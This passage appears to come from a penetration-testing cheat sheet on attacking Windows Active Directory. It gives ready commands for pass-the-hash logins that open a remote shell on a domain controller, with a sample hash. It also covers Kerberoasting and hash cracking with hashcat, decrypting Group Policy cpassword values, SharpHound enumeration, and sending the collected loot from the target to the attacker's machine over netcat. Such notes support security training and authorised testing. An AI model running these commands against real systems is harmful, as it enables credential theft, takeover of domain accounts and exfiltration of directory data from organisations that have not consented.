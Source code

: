 **Use Evil-WinRM or win-pth to connect to host using PTH attack:**
```
evil-winrm -i $DOMAIN_CONTROLLER_IP -u <user> -H <hash>
```
When using win-pth you have to append the blank LM hash to the beginning of the user’s hash, I’ll provide a link explaining this.
-   Blank LM hash (always the same) — Aad3b435b51404eeaad3b435b51404ee
```
pth-winexe -U <domain>/<user>%<LM hash>:<user hash> //$DOMAIN_CONTROLLER_IP <command to run>
```
Example win-pth command:
* Blank 1st part of hash.
```
pth-winexe -U svcorp/pete%aad3b435b51404eeaad3b435b51404ee:0f951bc4fdc5dfcd148161420b9c6207 //$DOMAIN_CONTROLLER_IP cmd.exe
```
[https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/](https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/)
[https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee](https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee)
**Get User SPNs:**
```
impacket-GetUserSPNs <IP or hostname>/<username>:<password>
```
[add -request if SPN is found]
-   [save hash and crack with hashcat]
```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
**Decrypt Groups.xml cpassword:**
If you find a file on a Windows box named Groups.xml, this is a Group Policy Preferences XML (GPP) file. gpp-decrypt will extract usernames and passwords from it and decrypt it.
```
python3 gpp-decrypt.py -f <groups.xml file>
```
or
```
python3 gpp-decrypt.py -c <cpassword>
```
[https://github.com/t0thkr1s/gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt)
## Bloodhound
One of the best tools for AD enumeration. Use it in conjunction with SharpHound.exe on target to grab a visual representation of the domain. Also has some useful pre-built queries to identify the best path to Domain Admin, who is kerberoastable, etc.
**SharpHound Tutorial:**
[https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
**SharpHound (exe or ps1) downloads:**
[https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
**Bloodhound Cheatsheet:**
- In Kali: neo4j console [to start backend service]
- Enter creds [from initial setup]
- Transfer SharpHound (exe or ps1) and nc.exe to target
- Run SharpHound.exe or .ps1
- Transfer loot back to kali:
— On $LHOST:
```
nc -nlvp 4321 > loot.zip
```
— On target:
```
nc.exe -nv $KALI 4321 < loot.zip
```
- Drag loot.zip into BloodHound GUI